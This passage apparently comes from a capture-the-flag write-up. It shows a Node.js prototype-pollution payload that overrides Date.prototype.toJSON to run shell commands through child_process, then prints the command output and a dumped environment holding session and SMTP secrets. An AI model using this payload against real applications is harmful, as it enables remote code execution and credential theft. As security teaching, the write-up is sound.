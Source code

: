 ### Exfiltration

According to the author, there is no network access, so we can't just send the data out via webhooks, how do we get the result of the code back to us?

However looking at the code again, we can see a `new Date()`.

```js
io.to(room).emit('message', {
	username: "Korosensei",
	text: 'Your template is safe!',
	avatar: '/images/korosensei.png',
	timestamp: new Date()
});
```

Hrm, what if we prototype pollute the `toJSON` and make this return a value to us?

```js
Date.prototype.toJSON=()=>process.mainModule.require('child_process').execSync("ls")
```

```json
{
   "username":"Korosensei",
   "text":"Nurufufufu~ Welcome kumo! I am your beloved octopus teacher, Korosensei! I can taste-test your templates for any dangerous ingredients. Please share your template with me, and I'll evaluate it with my super-speed analysis! Nurufufufu~",
   "avatar":"/images/korosensei.png",
   "timestamp":"data\nmiddleware\nnode_modules\npackage-lock.json\npackage.json\npublic\nroutes\nserver.js\nviews\n"
}
```

It worked!

Let's look at `env`, hrm not very useful.

```json
{
   "NODE_VERSION":"22.18.0",
   "HOSTNAME":"68e2d0e98ef4",
   "YARN_VERSION":"1.22.22",
   "SMTP_PORT":"8025",
   "SHLVL":"1",
   "PORT":"8000",
   "HOME":"/home/node",
   "SESSION_SECRET":"539583e43dc39e049314998a5a9d6ce599121b06ecddf95fa2f387b6",
   "AUTH_SERVICE_URL":"http://auth:3000",
   "SMTP_WEB_PORT":"8080",
   "GOOGLE_RECAPTCHA_SITE_KEY":"6Le-mowrAAAAAMJcDkgDp-Cg9etb6lZczFogq9K8",
   "PATH":"/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
   "SMTP_FROM":"No Reply",
   "SMTP_PASS":"94bb5f98b38747b23a436a51a9c346ad2e172045",
   "PWD":"/usr/src/app",
   "NODE_ENV":"development",
   "SMTP_HOST":"smtp",
   "SMTP_USER":"no.reply@cyberjutsu.io"
}
```
